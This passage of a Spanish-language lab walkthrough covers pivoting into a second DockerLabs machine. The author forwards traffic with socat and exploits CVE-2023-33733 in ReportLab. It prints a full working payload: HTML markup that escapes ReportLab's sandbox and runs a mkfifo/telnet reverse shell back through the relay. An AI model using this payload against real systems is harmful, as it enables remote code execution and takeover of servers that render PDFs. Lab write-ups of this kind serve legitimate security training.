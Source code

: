 ## Intrusión a Grandma2
Me encontré con el [CVE-2023-33733](https://github.com/c53elyas/CVE-2023-33733) que habla de un RCE en reportlab, asi que lo probamos moficando ligeramente el codigo para obtener una reverse shell, pero antes de enviar el payload debemos configurar socat en **Grandma1**.

![](/assets/images/dockerlabs-grandma/grandma-19.png)

Tenemos configurado socat para que toda conexion que reciba por el puerto 1111 sea redirigida hacia el puerto 1234 de la ip 10.10.10.1, que en este caso es mi maquina atacante, donde estoy en escucha por ese puerto, esperando la revshell

![](/assets/images/dockerlabs-grandma/grandma-20.png) #---

Ahora hacemos el envio del payload con la reverse por **telnet**, especificando la ip que tiene conectividad con **Grandma 2** (20.20.20.2) y el puerto 1111 que habiamos puesto en escucha con socat, solo queda esperar la reverse.

```html
<para>
    <font color="[ [ getattr(pow,Attacker('__globals__'))['os'].system('TF=$(mktemp -u);mkfifo $TF && telnet 20.20.20.2 1111 0<$TF | bash 1>$TF') for Attacker in [orgTypeFun('
Attacker', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self:
{setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">
    exploit
    </font>
</para>
```
